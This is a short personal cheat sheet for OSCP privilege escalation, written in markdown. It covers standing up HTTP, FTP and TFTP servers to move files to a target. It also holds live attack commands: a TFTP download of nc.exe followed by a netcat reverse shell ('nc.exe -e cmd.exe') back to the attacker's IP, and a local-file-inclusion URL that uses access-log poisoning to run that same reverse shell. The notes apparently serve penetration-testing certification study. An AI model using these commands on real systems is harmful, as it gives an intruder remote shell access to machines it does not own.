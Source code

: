 ```yaml
---
categories:
- OSCP
- PrivilegeEscalation
status: done
tags: OSCP, PrivilegeEscalation 
created_date : Tuesday 21 February 2023 (08:50) 
---
```

# PrivilegeEscalation - Common


## Set up Webserver
```
python -m SimpleHTTPServer 8080
https://github.com/sc0tfree/updog
updog
```

## Set up FTP Server
```
# Install pyftpdlib
pip install pyftpdlib

# Run (-w flag allows anonymous write access)
python -m pyftpdlib -p 21 -w
```

## Set up TFTP
```
# In Kali
atftpd --daemon --port 69 /tftp

# In reverse Windows
tftp -i 10.11.1.111 GET nc.exe
nc.exe -e cmd.exe 10.11.1.111 4444

http://10.11.1.111/addguestbook.php?LANG=../../xampp/apache/logs/access.log%00&cmd=nc.exe%20-e%20cmd.exe%2010.11.0.105%204444
```